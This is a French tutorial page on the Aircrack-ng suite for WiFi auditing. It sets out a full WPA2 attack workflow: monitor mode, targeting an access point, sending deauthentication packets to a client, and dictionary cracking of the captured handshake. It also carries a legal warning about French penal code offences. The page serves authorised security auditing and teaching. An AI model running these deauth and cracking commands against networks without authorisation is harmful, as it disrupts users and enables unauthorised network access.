


---
description: "Aircrack-ng — La suite historique et indispensable pour l'audit des réseaux sans fil (WEP, WPA/WPA2-PSK)."
icon: lucide/book-open-check
tags: ["RED TEAM", "WIFI", "CRACKING", "AIRCRACK", "RESEAU"]
---

# Aircrack-ng — Le Couteau Suisse du Sans-Fil

<div
  class="omny-meta"
  data-level="🟡 Intermédiaire"
  data-version="1.7+"
  data-time="~30 minutes">
</div>


## Introduction

!!! quote "Analogie pédagogique — L'Écoute aux Portes"
    Pirater un réseau WiFi, ce n'est pas "deviner" le mot de passe sur la page de connexion de la box. C'est se tenir dans le couloir, écouter un employé qui frappe à la porte verrouillée, et enregistrer secrètement la phrase secrète qu'il murmure au garde. Ensuite, on rentre chez soi avec l'enregistrement, et on essaie des milliers de mots du dictionnaire jusqu'à trouver celui qui correspond au murmure. 
    **Aircrack-ng** n'est pas un outil, c'est une *suite* d'outils qui gère tout ce braquage : couper les caméras du couloir (`airmon-ng`), écouter (`airodump-ng`), forcer l'employé à répéter son mot de passe (`aireplay-ng`) et enfin, casser le code de l'enregistrement à la maison (`aircrack-ng`).

La suite **Aircrack-ng** est la pierre angulaire de l'audit WiFi. Elle permet de capturer les trames réseau brutes dans les airs (802.11) et d'attaquer les mécanismes d'authentification (principalement la capture du "Handshake" WPA2, la poignée de main cryptographique).

<br>

---

## Fonctionnement & Architecture (Le Handshake)

Le but principal d'Aircrack-ng sur un réseau moderne (WPA2) est d'intercepter le **4-Way Handshake** (l'échange de clés lors de la connexion d'un client légitime).

### Le Détail du 4-Way Handshake

L'attaquant n'a pas besoin de décrypter la conversation en direct. Il lui suffit d'enregistrer les 4 messages mathématiques échangés pour pouvoir "deviner" le mot de passe chez lui (Bruteforce).



### Le Pipeline d'Interception (L'Attaque)



<br>

---

## Cas d'usage & Complémentarité

Étant une suite modulaire, ses différents composants s'utilisent ensemble comme un pipeline UNIX :

1. **`airmon-ng`** : Prépare la carte réseau (Mode Monitor).
2. **`airodump-ng`** : Le radar. Visualise les réseaux autour de vous et capture le trafic.
3. **`aireplay-ng`** : L'attaquant actif. Génère du trafic, injecte des paquets, déconnecte des utilisateurs (Deauth).
4. **`aircrack-ng`** : Le casseur. Prends le fichier `.cap` et un dictionnaire pour trouver la clé.

<br>

---

## Les Options Principales (Par Outil)

### Airodump-ng (Le Radar)
| Option | Fonction | Description approfondie |
| :--- | :--- | :--- |
| `-c [canal]` | **Verrouillage Canal** | Force l'antenne à n'écouter qu'une seule fréquence (ex: canal 6). Indispensable pour capturer un handshake proprement. |
| `--bssid [MAC]` | **Filtrage Cible** | N'affiche et ne capture que le trafic provenant de l'adresse MAC du routeur cible. |
| `-w [nom]` | **Écriture (Write)** | Sauvegarde tout ce qui est intercepté dans un fichier `nom-01.cap`. |

### Aireplay-ng (L'Injecteur)
| Option | Fonction | Description approfondie |
| :--- | :--- | :--- |
| `-0 [nb]` | **Deauthentication** | Attaque de désauthentification (Coupe le WiFi de la cible). Si `nb`=0, attaque en boucle (interdit). Utilisez `-0 5` pour 5 paquets rapides. |
| `-a [MAC AP]` | **Cible AP** | L'adresse MAC du routeur cible (Access Point). |
| `-c [MAC Cli]` | **Client** | L'adresse MAC du téléphone/PC légitime que l'on veut déconnecter. |

<br>

---

## Installation & Configuration

Aircrack-ng nécessite du matériel spécifique. **Toutes les cartes WiFi ne supportent pas le "Mode Monitor" ni l'injection de paquets**. Les adaptateurs USB basés sur les chipsets *Atheros AR9271* (ex: Alfa AWUS036NHA) ou *Ralink RT5370* sont recommandés.

```bash title="Installation sous Linux"
# Installé par défaut sur Kali Linux et ParrotOS.
# Sinon, installation via apt :
sudo apt update && sudo apt install aircrack-ng
```

<br>

---

## Le Workflow Idéal (L'Attaque WPA2 Standard)

Voici le déroulement d'un audit de robustesse de clé WPA2 (nécessite les privilèges `root`).

### 1. Préparation de l'Antenne
```bash title="Passage en Mode Monitor"
# 1. Tuer les processus qui pourraient interférer avec l'antenne
sudo airmon-ng check kill

# 2. Passer la carte "wlan0" en mode écoute (elle deviendra souvent "wlan0mon")
sudo airmon-ng start wlan0
```

### 2. Repérage (Reconnaissance)
```bash title="Scanner l'environnement"
# Affiche tous les réseaux à portée. Notez le BSSID (MAC) et le Canal (CH) de la cible.
sudo airodump-ng wlan0mon
```

### 3. Ciblage & Capture
```bash title="Focus sur la cible"
# On verrouille le canal (ex: 6), on filtre sur l'AP (00:11:22...), et on écrit dans "capture"
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
```
*Laissez ce terminal ouvert.* Vous devez attendre qu'un client légitime se connecte. Pour accélérer les choses, on passe à l'étape 4 dans un nouveau terminal.

### 4. Injection (L'attaque active)
```bash title="Désauthentification"
# Dans un NOUVEAU terminal. On envoie 5 paquets au client (AA:BB...) pour le déconnecter.
# En se reconnectant, son handshake sera capturé par le terminal de l'étape 3.
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
```
*Dès que le terminal de l'étape 3 affiche `WPA Handshake: 00:11:22...` en haut à droite, vous avez réussi. Coupez tout (Ctrl+C).*

### 5. Cassage de la clé (Hors Ligne)
```bash title="Bruteforce par Dictionnaire"
# L'attaque se fait sans réseau, sur la puissance de votre CPU.
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap
```

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication métier |
|---|---|---|
| ✅ **À FAIRE** | **`airmon-ng check kill`** | Si vous oubliez cette commande, le gestionnaire réseau de Linux (NetworkManager) tentera de reconnecter votre carte au WiFi toutes les 10 secondes, ce qui "sautera" le mode monitor et ruinera vos captures. |
| ✅ **À FAIRE** | **Craquer sur GPU (Hashcat)** | Aircrack-ng utilise le CPU. Pour craquer une clé WPA2, convertissez votre `.cap` en format Hashcat (`hcxpcapngtool`) et utilisez la carte graphique de votre ordinateur (100x plus rapide). |
| ❌ **À NE PAS FAIRE** | **Deauth en boucle (`-0 0`)** | Lancer une désauthentification infinie sur une entreprise est une attaque par déni de service (DoS). Cela interrompt la production et est formellement interdit lors d'un audit de mot de passe. |

<br>

---

## Avertissement Légal & Éthique

!!! danger "Code Pénal — Le WiFi de vos voisins n'est pas un terrain de jeu"
    L'interception d'un Handshake WPA2 sans autorisation caractérise de multiples infractions en droit français :
    
    1. **Captation de données (Étape 3)** : Intercepter le trafic d'autrui sans son consentement est une atteinte au secret des correspondances (Article 226-15 du Code pénal : 1 an de prison, 45 000 € d'amende).
    2. **Entrave au fonctionnement (Étape 4)** : L'utilisation de paquets de "Deauth" (Désauthentification) empêche le client légitime d'utiliser son réseau. C'est une entrave au fonctionnement d'un STAD (Article 323-2 du Code pénal : 5 ans de prison, 150 000 € d'amende).
    3. **Craquage de la clé (Étape 5)** : Le déchiffrement de la clé constitue un acte préparatoire à l'accès frauduleux (Article 323-1).

    **Règle d'or** : N'attaquez **QUE** les réseaux dont vous êtes le propriétaire légal, ou pour lesquels vous disposez d'un **mandat d'audit signé**.

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Aircrack-ng est l'ancêtre respecté du piratage WiFi. S'il existe aujourd'hui des outils entièrement automatisés (comme Wifite), comprendre comment manipuler `airmon-ng` et `aireplay-ng` manuellement est indispensable pour débugger une attaque qui échoue ou pour comprendre la structure même d'un paquet 802.11.

> Pour aller plus loin et auditer un quartier entier sans émettre le moindre paquet hostile, découvrez la cartographie passive avec **[Kismet →](./kismet.md)**.

<br>


